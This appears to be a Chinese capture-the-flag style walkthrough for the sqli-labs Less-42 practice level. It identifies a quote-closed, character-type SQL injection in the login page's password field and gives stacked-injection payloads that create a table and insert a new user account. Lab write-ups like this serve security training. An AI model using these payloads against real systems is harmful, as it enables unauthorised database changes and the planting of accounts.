

# Less - 42

---

# 通关教程

---

## 1、判断闭合

---

发现与less-24的页面一模一样

​​

尝试发现这关使用二次注入是行不通的，然后username的位置也是没有SQL注入漏洞的，所以这关我们尝试在password的位置使用堆叠注入攻击。在password的位置输入admin'

​​

根据报错信息判断闭合方式为'#，并且为字符型注入

---

## 2、创建一张表

---

```http
a';create table test like users;#
```

​​

​​

---

## 3、创建一个新用户

---

```http
a';insert into users values(18,'cmx','cmx');#
```

​​

​​

‍

---
